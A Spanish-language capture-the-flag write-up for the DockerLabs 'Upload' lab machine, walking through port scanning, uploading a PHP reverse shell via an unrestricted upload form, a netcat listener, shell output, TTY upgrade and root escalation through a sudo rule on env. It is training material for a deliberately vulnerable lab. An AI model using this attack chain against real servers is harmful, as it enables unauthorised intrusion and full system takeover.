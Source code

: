 # 🖥️ Writeup - Upload 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip upload.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh upload.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-13 20:42 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000030s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Upload here your file
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.67 seconds
```

El único puerto abierto es el `80`.
Accedemos por `HTTP` y vemos que existe un panel que permite subir archivos.

![alt text](../images/upload.png)

Dichos archivos se almacenan en el directorio `/uploads` y podemos ejecutarlos desde allí.

Probamos a subir un script en `.php` para obtener una `reverse shell`. En este caso utilizamos la `php-reverse-shell` de `Pentestmonkey` en GitHub.

Lo copiamos en nuestra máquina `Kali`, configuramos nuestra `IP` y el `puerto` de escucha, y lo guardamos como `shell.php`.

Intentamos subirlo a través del panel de subida y la operación resulta exitosa.

![alt text](../images/upload2.png)


Navegamos al directorio `/uploads` para ejecutar el archivo. Antes de ello, levantamos un listener en nuestra máquina atacante.

```bash
sudo nc -nlvp 4444
```

Ahora sí, al ejecutar el archivo `php` obtenemos una `reverse shell` como el usuario `www-data`.

Info:
```
connect to [10.0.4.12] from (UNKNOWN) [172.17.0.2] 41646
Linux fe86a383d491 6.12.38+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.38-1kali1 (2025-08-12) x86_64 x86_64 x86_64 GNU/Linux
 20:51:08 up  5:19,  0 users,  load average: 0.16, 0.40, 0.73
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```


# TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```
`ctrl Z`
```bash
stty raw -echo; fg
```
```bash
reset xterm
```
```bash
export TERM=xterm
```
```bash
export BASH=bash
```

# ESCALADA DE PRIVILEGIOS

Comprobamos permisos `sudo` y `SUID`.

```bash 
sudo -l
```

Info:
```
Matching Defaults entries for www-data on fe86a383d491:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on fe86a383d491:
    (root) NOPASSWD: /usr/bin/env
```

Comprobamos permisos y observamos que podemos ejecutar el binario `env` con privilegios de `root`, lo que nos permite escalar privilegios de la siguiente manera:

```bash
sudo env /bin/sh
```

Info:
```
# whoami
root
#
```

Ya somos root!